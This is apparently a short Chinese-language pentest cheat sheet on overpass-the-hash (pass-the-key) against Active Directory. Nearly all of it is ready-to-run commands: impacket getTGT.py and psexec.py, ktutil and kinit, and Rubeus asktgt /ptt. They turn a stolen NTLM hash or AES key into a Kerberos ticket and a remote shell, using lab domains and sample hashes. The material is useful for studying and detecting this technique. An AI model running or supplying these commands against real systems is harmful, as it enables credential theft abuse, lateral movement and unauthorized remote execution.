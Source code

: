 	在这种技术中，我们不是直接传递哈希值，而是使用帐户的 NTLM 哈希值来请求有效的 Kerberost 票证 (TGT)
 ### impacket
  	>python ./getTGT.py -hashes ":1a59bd44fe5bec39c44c8cd3524dee" lab.ropnop.com
	>export KRB5CCNAME="/root/impacket-examples/velociraptor.ccache"
	>python3 psexec.py "jurassic.park/velociraptor@labwws02.jurassic.park" -k -no-pass
	>./getTGT.py -aesKey xxxxxxxxxxxxxxkeyaesxxxxxxxxxxxxxxxx lab.ropnop.com
	>ktutil -k ~/mykeys add -p tgwynn@LAB.ROPNOP.COM -e arcfour-hma-md5 -w 1a59bd44fe5bec39c44c8cd3524dee --hex -V 5
	>kinit -t ~/mykers tgwynn@LAB.ROPNOP.COM
	>klist
 ### Rubeus
  	>.\Rubeus.exe asktgt /user:Administrator /rc4:[NTLMHASH] /ptt
	>.\Rubeus.exe asktgt /user:Administrator /aes256:[AES256HASH] /opsec /ptt
	>.\Rubeus.exe asktgt /user:Administrator /rc4:[NTLMHASH] /createnetonly:C:\Windows\System32\cmd.exe